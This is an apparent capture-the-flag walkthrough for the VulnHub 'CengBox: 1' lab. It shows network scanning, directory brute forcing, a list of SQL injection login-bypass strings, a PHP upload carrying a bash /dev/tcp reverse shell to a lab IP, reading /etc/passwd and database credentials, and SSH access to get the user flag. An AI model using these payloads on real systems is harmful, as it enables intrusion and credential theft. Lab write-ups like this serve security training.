

# CengBox: 1

\

## 

## CengBox: 1

- **CengBox: 1** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/cengbox-1,475/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  Network Scanning :

- Find the machine IP :

    nmap -sn 192.168.2.0/24



- Run nmap master command :

    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.236

- Find available port in the machine ( Optional ) :

    nmap -v -p- 192.168.2.236

- 

    nmap -sC -sV -A 192.168.2.236   

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.236

1.  Web Enumeration :

- IP visit in browser : <http://192.168.2.236>

<!-- -->

- Directory brute force to find the endpoints :

    gobuster dir -u http://192.168.2.236 -w /usr/share/wordlists/dirb/big.txt -x php,txt,html

- Now again directory brute force in /masteradmin parameter :

    gobuster dir -u http://192.168.2.236/masteradmin/ -w /usr/share/wordlists/dirb/big.txt -x php,txt,html

- Found the endpoints :

    db.php
    login.php
    upload.php

- Visit the endpoints : <http://192.168.2.236/masteradmin/db.php>
  <http://192.168.2.236/masteradmin/login.php>
  <http://192.168.2.236/masteradmin/login.php>



- Try to login with SQL Queries :

    '_'
    ::
    '&'
    '^'
    ' or '-'
    ' or ' '
    ' or '&'
    ' or '^'
    ' or '+'
    '-'

 Login Successful .

- After login enter the upload.php page :
  <http://192.168.2.236/masteradmin/upload.php>

1.  Reverse Shell :

- Upload any file but they can get the error .

<!-- -->

- Now inspect and view the source code :



- Make a file and enter the reverse shell payload :

    nano shell.ceng

- 

    <?php `/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.219/443 0>&1'`; ?>

- Upload the file :

- Start the listener :

    nc -nlvp 443

- Call the file : <http://192.168.2.236/uploads/shell.ceng>

<!-- -->

- Finally got the reverse shell :

- Navigate the directory :

    cd /var/www/html/masteradmin

- Check the file list :

    ls -lh



- Read the db.php file :

    cat db.php



- Standard PTY upgrade command :

    python3 -c 'import pty; pty.spawn("/bin/bash")'



- Read the passwd file :

    cat /etc/passwd



1.  Database Enumeration :

- MySQL Access :

    mysql -u root -p'SuperS3cR3TPassw0rd1!'

- List all databases :

    SHOW DATABASES;

- Select the cengbox database :

    USE cengbox;

- List available tables :

    SHOW TABLES;



- Show the admin data :

    select * from admin;

- Exit from database :

    exit;



- Found username and password :

    Username : masteradmin
    Password : C3ng0v3R00T1!

1.  SSH Access :

- SSH Login with cengover user :

    ssh cengover@192.168.2.236

- Check the file list :

    ls -lh

- Read the user.txt file :

    cat user.txt

- Found the user flag :

    8f7f6471e2e869f029a75c5de601d5e0



